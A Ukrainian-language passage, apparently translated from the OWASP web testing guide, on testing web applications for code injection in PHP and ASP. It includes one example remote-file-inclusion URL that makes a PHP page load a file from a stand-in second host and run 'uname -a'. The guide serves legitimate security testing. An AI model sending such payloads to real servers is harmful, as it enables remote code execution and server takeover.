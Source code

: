 ### Тестування на впровадження коду

| ID |
| ---- |
| WSTG-INPV-11 |

### Резюме
У цьому розділі описано, як тестувальник може перевірити, чи можна ввести код як вхідні дані на веб-сторінці та виконати його веб-сервером.

Під час тестування за допомогою впровадження коду тестувальник надсилає вхідні дані, які обробляються веб-сервером як динамічний код або як включений файл. Ці тести можуть бути націлені на різні механізми сценаріїв на стороні сервера, наприклад, ASP або PHP. Для захисту від цих атак необхідно застосувати належну перевірку введених даних і безпечне кодування.

### Цілі тесту

Визначте точки ін’єкції, де ви можете ін’єктувати код у програму.
<br>Оцініть ступінь тяжкості ін'єкції.
<br>Як тестувати

### Як тестувати
#### Тестування чорної скриньки
##### Тестування вразливостей PHP Injection
Використовуючи рядок запиту, тестувальник може ввести код (у цьому прикладі шкідливу URL-адресу), який буде оброблено як частину включеного файлу:

http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a

Шкідлива URL-адреса приймається як параметр для сторінки PHP, яка пізніше використовуватиме значення у включеному файлі.

#### Тестування сірого ящика
##### Тестування вразливостей впровадження коду ASP
Вивчіть код ASP для введення користувачами, що використовується у функціях виконання. Чи може користувач вводити команди в поле введення даних?

